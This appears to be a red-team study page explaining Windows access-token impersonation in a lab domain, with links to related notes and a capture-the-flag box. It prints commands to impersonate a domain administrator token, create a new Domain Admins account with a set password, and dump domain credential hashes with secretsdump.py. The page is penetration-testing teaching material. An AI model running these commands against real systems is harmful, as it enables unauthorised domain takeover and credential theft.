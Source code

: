 # 🗼 Token Impersonation

Nice page about token impersonation with example:

{% content-ref url="../../../../red-team/technical-knowledge/privilege-escalation/windows/impersonation-and-potato-attacks.md" %}
[impersonation-and-potato-attacks.md](../../../../red-team/technical-knowledge/privilege-escalation/windows/impersonation-and-potato-attacks.md)
{% endcontent-ref %}

<figure><img src="../../../../.gitbook/assets/image (21) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This technique that allows an attacker to steal the access token of a logged-on user on the system without knowing their credentials and impersonate them to perform operations with their privileges.

There are two types of tokens related to the token impersonation technique —&#x20;

**Delegation and Impersonation**:

Delegation refers to the process of granting permissions or access rights to a user or service, allowing them to act on behalf of another user or service.

Impersonation, on the other hand, refers to the process of a user or service pret to be another user or service in order to gain access to resources.&#x20;

<figure><img src="../../../../.gitbook/assets/image (23) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can now impersonate this user

<figure><img src="../../../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Attempt to dump hashes as non-Domain Admin with mimikatz->

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (17).png" alt=""><figcaption></figcaption></figure>

If we had a domain admin token available, we could impersonate it like this:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (4).png" alt=""><figcaption></figcaption></figure>

First you spot the token

```
impersonate_token MARVEL\\administrator
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (7).png" alt=""><figcaption></figcaption></figure>

we could now try to dump hashes as domain admin with mimikatz:

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

that would give the following output:

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we found some way to impersonate a domain admin account, we could use remote commands to go further:

```
net user /add felix Mot2pAsse /domain
net group "Domain Admins" felix /ADD /DOMAIN
```

The first command, `net user /add felix Mot2pAsse /domain`, creates a new user account named "felix" with the password "Mot2pAsse" on the Windows domain. This command creates a new security principal in the domain, which can be used to authenticate and authorize access to resources.

The second command, `net group "Domain Admins" felix /ADD /DOMAIN`, adds the user "felix" to the "Domain Admins" group on the Windows domain. This group is a built-in group that is granted administrative privileges on the domain, allowing members to manage domain-wide settings and resources. By adding the user "felix" to this group, you are granting them administrative privileges on the domain.

And if this user add is successful, we could go and run secretsdump.py ->

```
secretsdump.py MARVEL.local/felix:'Mot2pAsse'@10.10.14.94
```

It would look something like this:

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Example in this box:

{% content-ref url="../../../../capture-the-flags/active-directory-and-networks/sauna.md" %}
[sauna.md](../../../../capture-the-flags/active-directory-and-networks/sauna.md)
{% endcontent-ref %}
